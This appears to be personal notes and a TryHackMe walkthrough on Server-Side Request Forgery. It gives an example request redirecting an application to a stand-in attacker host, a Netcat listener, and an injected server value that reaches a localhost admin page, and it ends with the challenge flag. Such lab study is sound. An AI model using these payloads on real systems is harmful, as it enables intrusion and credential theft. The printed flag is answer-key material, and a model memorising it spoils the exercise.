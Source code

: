 # Server-Side Request Forgery 

## Introduction 
Server-Side Request Forgery (SSRF) is a security vulnerability where attackers manipulate a web application into sending requests to different destinations using the application's own capabilities. 

## Key Points 
• SSRF vulnerabilities often emerge when web applications interact with third-party services. 

• For example, a web application might send SMS notifications using an external API, requiring an API key for authentication. 

• The vulnerability arises if the application allows users to manipulate the server parameter directing requests to the SMS provider. 

• An attacker could change the server value to point to their own machine, prompting the application to send requests to the attacker instead of the intended provider, allowing the attacker to control message sending at the expense of the original user. 

• The attacker could execute a simple request, like: 
`https://www. mysite.com/sms? server=attacker. thm&amp;msg=ABC` 

• This would redirect the web application to send a request to: 
`https://attacker. thm/api/send? msg=ABC` 

• Using tools like Netcat, the attacker can capture the contents of the request. 

• SSRF can allow attackers to do more than just send requests, including: 

• Enumerating internal networks and identifying IP addresses and ports. 

• Exploiting trust relationships between servers for restricted access. 

• Interacting with non-HTTP services, potentially leading to remote code execution (RCE). 

## Conclusion 
To better understand and exploit SSRF vulnerabilities, visit http://MACHINE_IP:8087/ and locate the admin area as a targeted objective. Follow the specific instructions provided to access restricted areas of the website.

# Try Hack me Challenge

So this challenge is fun. You have to use burp suite to do SSRF. We stop the request while downloading the cv. This way we can change the server to our machine ip.
In a terminal we use: nc -lvp 8030, and in burpsuite we change the server address to: MACHINE_IP:8030 and forward the request. This way we can get the flag. 

Now for the last challenge, i couldnt figure out how to use burp to get it.. now what i did was get the url for the server where we download the pdf from. Then i changed server to localhost:8087/admin%23%&id=75482342 . the %23% represents the hash symbol in URLs. Basically this is obfuscation.
This allows us to have access to the admin where we find the flag:  thm{c4n_i_haz_flagz_plz?}